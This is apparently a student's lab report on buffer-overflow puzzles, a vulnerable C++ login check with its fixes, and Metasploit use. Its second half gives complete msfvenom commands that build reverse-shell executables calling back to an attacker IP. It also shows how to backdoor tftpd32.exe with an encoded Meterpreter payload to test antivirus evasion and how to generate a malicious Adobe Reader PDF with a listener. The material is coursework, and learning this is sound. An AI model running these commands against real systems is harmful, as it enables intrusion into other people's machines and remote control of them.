



# Lab 4 - Buffer-Overflow Attacks and Exploit Frameworks

# 4.1 Buffer Exploits (Bad Programming)
---
## Buffer Vulnerabilites in C/C++

Buffer overflow vulnerabilities are among the oldest and most well-known security flaws in computer systems. 
Despite decades of research and mitigation techniques, they continue to appear in modern software. This lab focuses on understanding **why C and C++ programs are especially prone to buffer overflows**, and how poor programming practices can lead to exploitable vulnerabilities.

Historically, buffer overflows have been used in real-world attacks such as the Morris Worm (1988), and they are still relevant today, as discussed in classic papers like *Smashing the Stack for Fun and Profit* and modern security talks such as RSA Conference 2024.

## What is a Buffer Overflow?

A buffer overflow occurs when a program writes more data into a memory buffer than it was allocated to hold. In low-level languages such as C and C++, this extra data can overwrite adjacent memory locations, potentially corrupting variables, control data, or even program execution flow.

On stack-based memory layouts, overflowing a buffer can overwrite the function's **return address**, allowing an attacker to redirect execution to attacker-controlled code.

## Common Problems in C/C++ That Allow Buffer Overflows

One of the main reasons buffer overflows occur in C and C++ is the lack of automatic bounds checking. The languages allow direct memory access, and it is entirely the programmer’s responsibility to ensure that data written to a buffer does not exceed its allocated size. Writing past a buffer results in undefined behavior and may overwrite adjacent memory.

Additionally, C and C++ provide unsafe standard library functions such as `gets()`, `strcpy()`, and `sprintf()` that do not validate input length. When such functions are used with stack-allocated buffers, it becomes possible to overwrite control data like return addresses, which can lead to execution flow hijacking.

# Stacks!!!

**Stack Zero** reads user input from Standard input using unsafe `gets()` function and stores it in a fixed-size buffer. The program contains a local `buffer[64]` and a variable `changeme` initialized to `0`.
Because `gets()` does not perform bounds checking, suppyling more than 64 characters causes the input to overflow the buffer and overwrite adjacent stack memory. By entering a string longer than the buffer size the `changeme` variable is overwritten and its value changes from `0`, which triggers the success condition!

**The solution I used:**
```c
python3 -c 'print("A"*65)' | ./stack_zero
```
---
**Stack One**, user input is provided as a command-line argument and copied into a fixed-size stack buffer wtihout bounds checking. The program contains a `buffer[64]` and a variable `changeme`, which must be set to the value `0x496c5962` in order to succeed.

By suppyling an argument longer than 64 bytes, the buffer can be overflowed and the adjacent `changeme` variable overwritten. Since the system uses little-endian byte order, the value `0x496c5962` must be written as the byte sequence `bYlI`.

The `SECRET_PATTERN` that successfully solves Stack One is therefore `64 bytes of padding` + `bYlI`:

```c
./stack_one $(python -c 'print("A"*64 + "bYlI")')
```
This overwrites the `changeme` with the correct value and triggers the success message.

# Windows Task
## Overview
In this task, a vulnerable authentication server is analyzed and attacked.\
The server checks a username and passwords against a database file (`db.txt`) using a C++ program (`PasswdCheck.cpp`).

## Program Usage
```bash
.\buffertest2022.exe db.txt <username> <password>
```
**Example:**
```C++
.\buffertest2022.exe db.txt test testsson 
```

## Attack 1 - Empty Credentials Bypass
```C++
```bash
.\buffertest2022.exe db.txt "" ""
```
**Result:**
```nginx
Access granted for user: 
```
After checking why this works, I had to look at the .cpp file, and the program concatenates the username and password into a single string such as:
```cpp
sprintf(string, "%s %s", argv[2], argv[3]):
```
When both username and password are empty, the resulting string becomes a single space `" "`.\
The authentication is performed using the function:
```cpp
if (strstr(buffer, string))
    ok = 0;
```
Since database entries are formatted like:
```
admin admin
```
and contains a space between username and password, the substring `" "` is found in nearly every database line. This causes the program to incorrectly accept empty credentials and grant access.
### Vulnerability Type
- Logic flaw
- Missing input validation
- Unsafe use of substring matching for authentication

## Attack 2 - Partial Password / Substring Match Bypass

To identify why it was possible to log in with only a partial password, the program was debugged in **Visual Studio** using breakpoints and variable inspection.

In Visual Studio, this was configured via:
- Project Properties -> Configuration Properties -> Debugging
  - Command arguments: `db.txt kalle kalle`
  - Working Directory: set to the folder containing `db.txt`

**Two main breakpoints** was used:
1. After username/password concatenated
   - Breakpoint placed directly after:
     ```cpp
     sprintf(string, "%s %s", argv[2], argv[3]);
     ```
     This allowed inspection of the constructed string (`string`), confirming it became:
     ```
     "kalle kalle"
2. Inside the Database read/compare loop
   - Breakpoint placed at the authentication check:
     ```cpp
     if (strstr(buffer, string))
        ok = 0;
      ```
With the comparison made, we also saw what the authentication was using to compare the string to, which was `admin admin`.

**Command used**
```
buffertest2022.exe db.txt adm a
```
**Result**
```
Access granted to user: admin
```
### Why this works
The authentication logic checks whether the user-supplied string is a **substring** of a database entry:
```cpp
if (strstr(buffer, string))
    ok = 0;
```
With the input:
```
username = "admin"
password = "a"
```
The constructed string becomes:
```
"admin a"
```
This string is a substring of the database entry:
```
"admin admin"
```
Because the program only checks for substring presence instead of an exact match, a **partial password** is sufficient to authenticate successfully.
### Vulnerability Type
- Logic flaw
- Improper string comparison
- Authentication bypass using partial credentials

# Additional Security Risks (Identified via Code Review)
## Unsafe Buffer Handling

```cpp
#define CH_BUFF_SIZE 16
char string[CH_BUFF_SIZE];

sprintf(string, "%s %s", argv[2], argv[3]);
```
- `sprintf` performs no bounds checking
- The is only 16 bytes long
- Overlong input can overwrite adjacent memory, including the authentication state variable `ok`
This introduces **buffer overflow risk** and potential memory corruption.

## Fixes implemented
The following changes were made to secure the application.
1. **Reject Empty Credentials**
```cpp
if (argv[2][0] == '\0' || argv[3][0] == '\0') {
    ok = 1;
    return;
}
```
Prevents authentication with empty username or password.
2. **Replace Unsafe `sprintf` with Bounded Formatting.
```cpp
int n = snprintf(string, CH_BUFF_SIZE, "%s %s", argv[2], argv[3]);
if (n < 0 || n >= CH_BUFF_SIZE) {
    ok = 1;
    return;
}
```
Prevents buffer overflow and rejects trunctuated input.

3. **Exact String Comparison**
```cpp
buffer[strcspn(buffer, "\r\n")] = '\0';
if (strcmp(buffer, string) == 0) {
    ok = 0;
}
```
Ensures that authentication only succeeds when the **full username and password match exactly**.

# 4.2 Exploit Frameworks
I used Kali Linux, which already contains **Metasploit**. The framework version was verified with `msfconsole -v`.

Metasploit previously used two tools for payload generation:
- `msfpayload`
- `msfencode`

But since 2015 these tools have been replaced by `msfvenom`, which combinees payload generation and encoding functionality.

## Reverse TCP Windows PE Payload
The correct `msfvenom` command equivalent to the old `msfpayload` command is:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.182.136 LPORT=31337 -f exe -o msf_shell_rev_tcp1.exe
```
Where:
- windows/shell_reverse_tcp - reverse shell payload
- LHOST - attacker IP address
- LPORT - listening port
- -f exe - output format
- -o - output file

The generated executable file contained the full payload code, the file was then uploaded to **VirusTotal** to analyze how many antivirus engines detected it.



## Staged Reverse TCP Payload
Generating a staged payload, with the correct command:
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.182.136 LPORT=31337 -f exe -o msf_shell_stealth_tcp2.exe
```
In this case, the payload does not contain the full shell code. Instead, a small stager connects back to the attacker machine and downloads the remaining payload from memory.

The generated file was once again uploaded to **VirusTotal**.



## Difference between payload types

The difference between the two payload types are:

**Windows/shell_reverse_tcp**
- Non-staged payload
- Contains the entire shellcode in the executable
- Larger payload size
- Easier for antivirus systems to detect

**windows/shell/reverse_tcp**
- Staged payload
- Small initial stager connects back to attacker
- Remaining payload is downloaded in memory
- Smaller footprint and sometimes harder for antivirus to detect

## Encoded Meterpreter Payload Injection
The next task required creating an encoded Meterpreter reverse TCP Payload and injecting it into an executable file.

The correct command with `msfvenom`:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.182.136 LPORT=31337 -x tftpd32.exe -k -e x86/shikata_ga_nai -i 3 -f exe -o tftpd32_bdoor.exe
```

Where:
- -x tftpd32.exe - Inject payload into an existing executable
- -k - keep the original program functionality
- -e x86/shikata_ga_nai - encoding method
- -i 3 - number of encoding iterations

The encoded executable was scanned with **VirusTotal**.



## Meterpreter Payload Options

**windows/meterpreter/reverse_tcp**
- Creates a reverse TCP connection from the victim to the attacker. One of the most commonly used Meterpreter payloads.

**windows/meterpreter/bind_tcp**
- Opens a listening port on the victim machine that the attacker can connect to.

**windows/meterpreter/reverse_http**
- Establishes a connection back to the attacker using HTTP traffic, which can bypass some firewalls.

**windows/meterpreter/reverse_https**
- Similar to reverse_http but encrypts communication using HTTPS.

**windows/meterpreter_reverse_tcp_dns**
- Uses DNS traffic for command and control communication

**windows/x64/meterpreter/reverse_tcp**
- 64-bit version of the reverse TCP Meterpreter payload.

**windows/x64/meterpreter/reverse_https**
- 64-bit version Meterpreter payload communicating over HTTPS.

**windows/meterpreter/reverse_tcp_allports**
- Attempts to connect back using multiple ports

**windows/meterpreter/reverse_tcp_uuid**
- Includes a unique identifier used by Metasploit to track sessions

**windows/meterpreter_reverse_http_proxy**
- Allow connections through proxy servers

**windows/meterpreter/reverse_winhttps**
- Uses the Windows WinHTTP API for encrypted communication

## 4.2.2 Connect to the Exploit and PDF Exploits

To display several exploit modules targeting vulnerabilites in **Adobe Reader**, I used `search platform:"Windows" type:exploit name:adobe`

One of the available exploits was `exploit/windows/fileformat/adobe_cooltype_sing`.

I loaded the exploit module by using `use exploit/windows/fileformat/adobe_cooltype_sing`, and checked the configurations with `show options`.

The exploit was configured with a Meterpreter reverse TCP payload:
```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ADDRESS>
set LPORT <LISTENING_PORT>
```
The exploit was executed using `exploit`, and Metasploit generated a malicious PDF file `msf.pdf`, the file was stored in the Metasploit
directory: `/home/kali/.msf4/local/msf.pdf`.

The PDF was uploaded to **VirusTotal**.
[BILD HÄR].

To receive the reverse connection from the victim system, a handler was started in Metasploit using:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ADDRESS>
set LPORT <LISTENING_PORT>
exploit
```
This command starts a listener waiting for incoming Meterpreter sessions.

## Exploit Execution

The generated PDF was opened on the target system using **Adobe Acrobat Reader 9.3.0**. When the file was opened, the exploit attempts to trigger vulnerability and execute the embedded payload.

Meterpreter commands:
```
sysinfo
getuid
ps
```
These commands provide system information, the current user identity, and a list of the running processes.
